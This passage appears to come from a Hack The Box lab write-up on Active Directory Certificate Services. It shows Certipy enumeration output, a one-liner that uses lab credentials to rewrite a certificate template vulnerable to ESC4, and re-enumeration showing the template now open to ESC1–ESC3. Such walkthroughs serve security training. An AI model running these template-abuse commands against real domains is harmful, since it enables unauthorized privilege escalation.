    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions
```

<br />

The template is `DunderMifflinAuthentication` and its vulnerable to `ESC4`.

This vulnerability is really critical, because it allows an attacker to modify template configurations and make the template vulnerable to other bugs, like `ESC1`.

[This POST](https://www.hackingarticles.in/adcs-esc4-vulnerable-certificate-template-access-control/) explains very well this scenery.

We can change the template configuration with this `certipy` one-liner:

<br />

```bash
❯ certipy template -u ca_svc -p 'Password123!' -template DunderMifflinAuthentication -target 10.10.11.51 -save-old
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
```

<br />

Doing this, if we list again vulnerable templates, we should see the same template but being vunerable to `ESC1`:

<br />

```bash
❯ certipy find -vulnerable -u ca_svc -p 'Password123!' -dc-ip 10.10.11.51 -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC01-CA
    DNS Name                            : DC01.sequel.htb
    Certificate Subject                 : CN=sequel-DC01-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 152DBD2D8E9C079742C0F3BFF2A211D3
    Certificate Validity Start          : 2024-06-08 16:50:40+00:00
    Certificate Validity End            : 2124-06-08 17:00:40+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : ExportableKey
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Authenticated Users
        Write Owner Principals          : SEQUEL.HTB\Authenticated Users
        Write Dacl Principals           : SEQUEL.HTB\Authenticated Users
        Write Property Principals       : SEQUEL.HTB\Authenticated Users
    [!] Vulnerabilities
      ESC1                              : 'SEQUEL.HTB\\Authenticated Users' can enroll, enrollee supplies subject and template allows client authentication
      ESC2                              : 'SEQUEL.HTB\\Authenticated Users' can enroll and template can be used for any purpose
      ESC3                              : 'SEQUEL.HTB\\Authenticated Users' can enroll and template has Certificate Request Agent EKU set
      ESC4                              : 'SEQUEL.HTB\\Authenticated Users' has dangerous permissions
```

<br />

